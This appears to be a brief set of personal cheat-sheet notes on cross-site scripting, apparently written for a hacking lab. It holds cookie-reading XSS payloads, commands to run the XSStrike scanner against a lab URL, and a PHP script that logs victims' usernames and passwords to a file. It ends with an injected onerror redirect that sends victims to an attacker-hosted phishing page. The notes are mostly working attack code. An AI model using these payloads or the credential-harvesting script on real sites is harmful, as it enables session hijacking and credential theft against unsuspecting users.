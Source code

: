 # Stored XSS
# Reflected XSS

```js
<script>alert(document.cookie)</script>

```

# DOM XSS

```js

<img src="" onerror=alert(document.cookie)>

```

# XSS Discovery


```bash

git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py

python3 xsstrike.py -u "http://94.237.49.178:45588/?fullname=admin&username=admin&password=1234567&email=fran%40gamil.com"

```

# Phishing

```php

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>

```


```bash

mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started


```
" onerror="window.location.href='https://10.10.14.110:80/index.php;
